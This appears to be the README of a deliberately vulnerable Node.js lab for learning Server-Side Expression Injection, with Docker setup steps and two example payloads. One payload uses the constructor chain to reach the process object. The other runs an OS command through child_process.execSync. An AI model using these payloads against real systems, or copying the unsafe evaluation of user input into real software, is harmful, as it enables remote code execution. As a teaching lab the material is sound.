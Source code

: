 
# 🧠 Server-Side Expression Injection (SSEI) Vulnerable Lab

Welcome to the **SSEI-Lab**, a purposely vulnerable web app built to help security professionals, CTF players, and students learn how Server-Side Expression Injection vulnerabilities work — including how they can lead to Remote Code Execution (RCE).

## 🚀 About This Lab

This Docker-based lab contains a **Node.js web application** that evaluates user-supplied mathematical expressions — similar to many real-world calculators — but with a vulnerability: **user input is evaluated directly**.

### Vulnerability

This lab demonstrates **Server-Side Expression Injection (SSEI)**, which can be exploited to execute arbitrary JavaScript and eventually run **OS-level commands**.

---

## 🧰 Technologies

- Node.js 18
- Express.js
- Minimal frontend (HTML + jQuery)
- Docker

---

## 🐳 How to Use

### Step 1: Build the Docker Image

```bash
git clone https://github.com/YOUR_USERNAME/ssei-lab.git
cd ssei-lab
sudo docker build -t ssei-lab .
```
#### On Kali Use the following

```bash
sudo apt update
sudo apt install -y docker.io
sudo systemctl start docker
git clone https://github.com/YOUR_USERNAME/ssei-lab.git
cd ssei-lab
sudo docker build -t ssei-lab .
```

### Step 2: Run the Docker

```bash
sudo docker run -p 3000:3000 ssei-lab
```

Then visit http://localhost:3000

### 🎯 Example Exploit
Once running, enter this payload into the input field:
```js
[]["constructor"]["constructor"]("return process")()
```

Or for command execution:
```js
[]["constructor"]["constructor"]("return global.process.mainModule.require('child_process').execSync('id').toString()")()
```

### 🔐 Disclaimer

This is for educational purposes only. Do NOT deploy this lab on a public server or use it for anything unethical.
